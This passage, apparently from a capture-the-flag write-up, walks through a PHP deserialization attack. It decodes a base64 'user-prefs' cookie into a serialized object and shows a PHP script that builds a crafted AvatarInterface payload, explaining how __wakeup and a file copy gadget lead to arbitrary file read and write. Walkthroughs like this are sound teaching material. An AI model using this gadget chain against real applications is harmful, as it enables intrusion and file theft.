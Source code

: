 
### RCE

#### user-prefs

On logging in, it sets another cookie, `user-prefs`:



    HTTP/1.1 302 Found
    Date: Thu, 30 Mar 2023 21:28:32 GMT
    Server: Apache/2.4.54 (Debian)
    Expires: Thu, 19 Nov 1981 08:52:00 GMT
    Location: /index.php
    Set-Cookie: user-prefs=Tzo5OiJVc2VyUHJlZnMiOjE6e3M6NToidGhlbWUiO3M6NToibGlnaHQiO30%3D
    ...[snip]...



This matches the cookie I saw deserialized in the code. Replacing `%3d`
with `=` (URL decode), this base64 decodes to:



    oxdf@hacky$ echo Tzo5OiJVc2VyUHJlZnMiOjE6e3M6NToidGhlbWUiO3M6NToibGlnaHQiO30= | base64 -d
    O:9:"UserPrefs":1:{s:5:"theme";s:5:"light";}



That's a PHP serialized object.

#### Generate Serialized Payload

I'm going to grab a lot of the PHP code from `utils.php` and use it to
generate a serialized object.



    <?php
    ...[snip]...
    $avatar_interface = new AvatarInterface();
    $avatar_interface->tmp = "";
    $avatar_interface->imgPath = "";
    $cookie = base64_encode(serialize($avatar_interface));
    echo $cookie;
    ?>



The `Avatar` and `AvatarInterface` classes are unchanged (not shown).
I'll create a new `AvatarInterface` instance, and set the `$tmp` and
`$imgPath` parameters. I'll then serialize and base64 encode the result,
and write that out.

So what are the `$tmp` and `$imgPath` values? When `unserialize` is
called on this cookie, it will call the `__wakeup` function of
`AvatarInterface`, creating a new `Avatar` with an `$imgPath` I give.
Then it will call `save` with `$tmp`. `save` uses `file_get_contents` to
read the contents of a file at the path `$tmp`, and writes that to
`$imgPath`.
